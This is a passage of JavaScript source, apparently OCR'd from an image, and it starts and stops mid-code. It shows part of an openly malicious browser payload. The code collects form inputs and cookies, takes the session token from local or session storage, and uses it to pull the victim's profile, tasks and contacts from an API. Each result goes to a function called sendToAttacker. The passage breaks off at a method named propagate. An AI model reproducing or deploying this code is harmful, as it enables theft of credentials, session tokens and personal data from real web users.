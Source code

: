 ```
                    method: form.method,
                    inputs: Array.from(inputs).map(input => ({
                        name: input.name,
                        type: input.type,
                        value: input.value
                    }))
                };
                formData.push(formInfo);
            }
        });
        
        credentials.forms = formData;
        
        this.sendToAttacker('credentials', credentials);
    }
    
    extractFromCookie(name) {
        const match = document.cookie.match(new RegExp('(^| )' + name + '=([^;]+)'));
        return match ? match[2] : null;
    }
    
    async exfiltrateData() {
        const token = localStorage.getItem('token') || sessionStorage.getItem('token');
        
        if (!token) return;
        
        try {
            // Exfiltrate user profile
            const profileResponse = await fetch(`${this.config.apiBase}/users/profile`, {
                headers: { 'Authorization': `Bearer ${token}` }
            });
            
            if (profileResponse.ok) {
                const profileData = await profileResponse.json();
                this.sendToAttacker('user_profile', profileData);
            }
            
            // Exfiltrate user tasks
            const tasksResponse = await fetch(`${this.config.apiBase}/tasks`, {
                headers: { 'Authorization': `Bearer ${token}` }
            });
            
            if (tasksResponse.ok) {
                const tasksData = await tasksResponse.json();
                this.sendToAttacker('user_tasks', tasksData);
            }
            
            // Exfiltrate contacts/collaborators
            const contactsResponse = await fetch(`${this.config.apiBase}/users/contacts`, {
                headers: { 'Authorization': `Bearer ${token}` }
            });
            
            if (contactsResponse.ok) {
                const contactsData = await contactsResponse.json();
                this.sendToAttacker('user_contacts', contactsData);
            }
            
        } catch (error) {
            this.sendToAttacker('exfiltration_error', { error: error.message });
        }
    }
    
    async propagate() {
```